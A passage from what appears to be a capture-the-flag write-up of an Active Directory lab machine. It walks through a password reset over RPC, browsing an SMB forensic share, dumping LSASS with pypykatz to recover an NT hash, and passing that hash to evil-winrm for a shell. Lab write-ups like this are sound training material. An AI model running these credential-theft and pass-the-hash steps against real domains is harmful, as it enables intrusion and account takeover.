 let's change tha password
```bash
net rpc password "audit2020" "newP@ssword2022" -U "blackfield.local"/"support"%'#00^BlackKnight' -S "10.129.62.228"
```
the first thing that comes to my mind after seing Audit2020 uccount is the forensic share let's try to log in that share and see what we can find
```bash
smbclient -U 'audit2020' '\\10.129.62.228\forensic'
Password for [SAMBA\audit2020]:
^[[HTry "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 14:03:16 2020
  ..                                  D        0  Sun Feb 23 14:03:16 2020
  commands_output                     D        0  Sun Feb 23 19:14:37 2020
  memory_analysis                     D        0  Thu May 28 20:28:33 2020
  tools                               D        0  Sun Feb 23 14:39:08 2020

		5102079 blocks of size 4096. 1574120 blocks available
smb: \> 
```
after downloading all the files I found NTDS.DIT file
```bash
pypykatz lsa minidump lsass.DMP
<sniip>
== LogonSession ==
authentication_id 406499 (633e3)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406499
	== MSV ==
		Username: svc_backup
		Domain: BLACKFIELD
		LM: NA
		NT: 9658d1d1dcd9250115e2205d9f48400d
		SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
	== WDIGEST [633e3]==
		username svc_backup
		domainname BLACKFIELD
		password None
	== Kerberos ==
		Username: svc_backup
		Domain: BLACKFIELD.LOCAL
<snip>
```
after executing pypykatz I have found an administrator hash and svc_backup hash, ofcourse the administrator hash didn't work but the svc_backup hash gave me a session in WinRM
```bash
 evil-winrm -u svc_backup -H '9658d1d1dcd9250115e2205d9f48400d' -i 10.129.62.228   
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> dir
```